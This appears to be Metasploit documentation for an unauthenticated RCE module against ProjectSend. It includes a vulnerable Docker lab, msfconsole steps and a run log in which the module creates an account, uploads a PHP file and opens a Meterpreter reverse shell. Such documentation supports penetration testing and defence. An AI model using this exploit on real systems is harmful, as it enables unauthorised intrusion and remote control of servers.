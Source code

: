 ## Vulnerable Application
ProjectSend is a web application used for sharing files with clients.

Due to POST parameters being executed before checking user permissions,
it is possible to perform a series of actions that can result in unauthenticated Remote Code Execution (RCE)
on vulnerable versions of ProjectSend.

This module has been tested against ProjectSend versions r1295 through r1605 on Linux.

The easiest way to obtain a vulnerable version of ProjectSend is by deploying it using Docker, as pre-made images exist for the software.
The following Docker Compose file can be used to set up a vulnerable environment.

```
---
    services:
      projectsend:
        image: lscr.io/linuxserver/projectsend:version-r1605
        container_name: projectsend
        environment:
          - PUID=1000
          - PGID=1000
          - TZ=Etc/UTC
          - MAX_UPLOAD=5000
        volumes:
          - ./projectsend/config:/config
          - ./projectsend/data:/data
        ports:
          - 80:80
        restart: unless-stopped
      db:
        image: mariadb
        restart: unless-stopped
        container_name: db
        volumes:
          - ./mariadb_data:/var/lib/mysql
        environment:
          MYSQL_ROOT_PASSWORD: password
          MYSQL_DATABASE: projectsend
          MYSQL_USER: projectsend
          MYSQL_PASSWORD: projectsend
```
After launching the containers, ProjectSend requires an initial configuration,
which can be completed by accessing it via port 80 on localhost.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/projectsend_unauth_rce`
4. Set remote hosts: `set RHOSTS <ip>`
5. Set remote port: `set RPORT <port>`
6. Set the path to ProjectSend: `set TARGETURI <URI>`
7. Set local host: `set LHOST <local ip>`
8. Do: `run`
9. You should get a shell

```
msf exploit(linux/http/projectsend_unauth_rce) > options

Module options (exploit/linux/http/projectsend_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The TARGETURI for ProjectSend
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.20     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP Command
```

## Options
N/A - Only default options.

## Scenarios
```
msf exploit(linux/http/projectsend_unauth_rce) > run

[*] Started reverse TCP handler on 192.168.1.20:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Client registration successfully enabled
[+] User alvin.padberg created with password lrASo3iM
[*] Disabling upload restrictions...
[*] Logging in as alvin.padberg...
[+] Logged in as alvin.padberg
[+] Successfully uploaded PHP file: sX1A4FCH.php
[*] Sending stage (39927 bytes) to 192.168.1.20
[*] Meterpreter session 1 opened (192.168.1.20:4444 -> 192.168.1.20:56675) at 2024-09-23 19:01:29 +0200
[*] Logging in as alvin.padberg...
[+] Logged in as alvin.padberg
[+] Client registration successfully disabled
[*] Enabling upload restrictions...

meterpreter > sysinfo
Computer    : 1480205e55c2
OS          : Linux 1480205e55c2 6.6.26-linuxkit #1 SMP Sat Apr 27 04:13:19 UTC 2024 aarch64
Meterpreter : php/linux
```
